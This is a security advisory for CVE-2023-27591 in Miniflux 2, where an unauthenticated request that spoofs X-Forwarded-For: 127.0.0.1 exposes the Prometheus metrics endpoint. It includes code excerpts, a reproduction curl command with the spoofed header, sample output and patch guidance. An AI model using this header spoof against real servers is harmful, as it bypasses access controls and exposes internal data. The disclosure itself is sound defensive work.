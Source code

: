 # Unauthenticated Prometheus metrics disclosure in Miniflux via IP spoofing

## Advisory Info

- Vendor: [Miniflux](https://github.com/miniflux)
- Product: [Miniflux 2](https://github.com/miniflux/v2)
- Affected Versions: >= 2.0.24 < 2.0.43
- Patched Versions: 2.0.43
- Vendor Advisory: [https://github.com/miniflux/v2/security/advisories/GHSA-3qjf-qh38-x73v](https://github.com/miniflux/v2/security/advisories/GHSA-3qjf-qh38-x73v)
- Vendor Publication Date: 2023-03-17

## Vulnerability Info

- Weakness: [CWE-290: Authentication Bypass by Spoofing](https://cwe.mitre.org/data/definitions/290.html)
- CVE: [CVE-2023-27591](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-27591)

## Summary

Since [v2.0.24](https://github.com/miniflux/v2/releases/tag/2.0.24), Miniflux can be [configured](https://miniflux.app/docs/configuration.html#metrics-collector) to expose a `/metrics` endpoint which is suitable for ingestion by [Prometheus](https://prometheus.io). This endpoint is only accessible on the loopback range (`127.0.0.1/8`) [by default](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/config/options.go#L71).

The `isAllowedToAccessMetricsEndpoint` check in the `httpd` service [determines](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/service/httpd/httpd.go#L233-L235) whether the caller is permitted to access the metrics endpoint [using](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/service/httpd/httpd.go#L225) the `ClientIP`:

```go
func isAllowedToAccessMetricsEndpoint(r *http.Request) bool {
    clientIP := net.ParseIP(request.ClientIP(r))
    for _, cidr := range config.Opts.MetricsAllowedNetworks() {
        _, network, err := net.ParseCIDR(cidr)
    // [snip]
        if network.Contains(clientIP) {
            return true
        }
    }
    return false
}
```

The `ClientIP` comes from the IP address [stored](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/http/request/context.go#L113-L116) in the request context which is obtained at the [middleware level](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/service/httpd/middleware.go#L18):

```go
func middleware(next http.Handler) http.Handler {
    return http.HandlerFunc(func(w http.ResponseWriter, r *http.Request) {
        clientIP := request.FindClientIP(r)
        ctx := r.Context()
        ctx = context.WithValue(ctx, request.ClientIPContextKey, clientIP)
    // [snip]
 }
```

The `FindClientIP` [method](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/http/request/client_ip.go#L23) called by the middleware can be influenced by the user-controllable `X-Forwarded-For` and `X-Real-Ip` request headers:

```go
func FindClientIP(r *http.Request) string {
    headers := []string{"X-Forwarded-For", "X-Real-Ip"}
    for _, header := range headers {
    value := r.Header.Get(header)
    // [snip]
}
```

Since there are no `IsAuthenticated` or `IsAdminUser` checks in front of the metrics endpoint, issuing an unauthenticated HTTP request to a publicly reachable Miniflux server with the request header `X-Forwarded-For: 127.0.0.1` will pass the `isAllowedToAccessMetricsEndpoint` check and return the Prometheus metrics when `METRICS_COLLECTOR` is enabled.

## Steps to Reproduce

1. Bring up an instance of Miniflux (herein `https://miniflux`) following the [installation instructions](https://miniflux.app/docs/installation.html) ensuring that the `METRICS_COLLECTOR` configuration option is enabled.

2. Run the following curl command from another host:

```bash
curl "https://miniflux/metrics" --header "X-Forwarded-For: 127.0.0.1"
```

3. Observe that the Prometheus metrics for the Miniflux instance are returned:

```bash
# [snip]
# HELP miniflux_broken_feeds Number of broken feeds
# TYPE miniflux_broken_feeds gauge
miniflux_broken_feeds 0
# HELP miniflux_db_connections_idle The number of idle connections
# TYPE miniflux_db_connections_idle gauge
miniflux_db_connections_idle 0
# HELP miniflux_db_connections_in_use The number of connections currently in use
# TYPE miniflux_db_connections_in_use gauge
miniflux_db_connections_in_use 0
# HELP miniflux_db_connections_max_idle_closed The total number of connections closed due to SetMaxIdleConns
# TYPE miniflux_db_connections_max_idle_closed gauge
miniflux_db_connections_max_idle_closed 0
# HELP miniflux_db_connections_max_idle_time_closed The total number of connections closed due to SetConnMaxIdleTime
# TYPE miniflux_db_connections_max_idle_time_closed gauge
miniflux_db_connections_max_idle_time_closed 0
# HELP miniflux_db_connections_max_lifetime_closed The total number of connections closed due to SetConnMaxLifetime
# TYPE miniflux_db_connections_max_lifetime_closed gauge
miniflux_db_connections_max_lifetime_closed 0
# HELP miniflux_db_connections_wait_count The total number of connections waited for
# TYPE miniflux_db_connections_wait_count gauge
miniflux_db_connections_wait_count 0
# HELP miniflux_db_open_connections The number of established connections both in use and idle
# TYPE miniflux_db_open_connections gauge
miniflux_db_open_connections 0
# HELP miniflux_users Number of users
# TYPE miniflux_users gauge
miniflux_users 0
# [snip]
```

## Impact

An unauthenticated user can retrieve Prometheus metrics from a publicly reachable Miniflux instance where the `METRICS_COLLECTOR` [configuration option](https://miniflux.app/docs/configuration.html#metrics-collector) is enabled and `METRICS_ALLOWED_NETWORKS` is set to 127.0.0.1/8 (default). The [available metrics](https://github.com/miniflux/v2/blob/b2fd84e0d376a3af6329b9bb2e772ce38a25c31c/metric/metric.go) contain statistical information about the Go environment and Miniflux database.

## Recommendations

If you run a Miniflux server with the `METRICS_COLLECTOR` configuration option enabled, you should update to Miniflux version 2.0.43 or above. You are also recommended to use HTTP basic authentication with the `METRICS_USERNAME` and `METRICS_PASSWORD` options to protect the metrics endpoint or run Miniflux behind a trusted reverse proxy.

## Timeline

- 2023-03-11: Vulnerability discovered
- 2023-03-11: Vulnerability reported to vendor
- 2023-03-12: Vendor acknowledged receipt of advisory
- 2023-03-12: Vendor committed fix ([PR #1744](https://github.com/miniflux/v2/pull/1744), [PR #1745](https://github.com/miniflux/v2/pull/1745))
- 2023-03-17: Vendor released fix ([v2.0.43](https://github.com/miniflux/v2/releases/tag/2.0.43)
- 2023-03-17: Vendor disclosed via [GitHub Security Advisory](https://github.com/miniflux/v2/security/advisories/GHSA-3qjf-qh38-x73v)
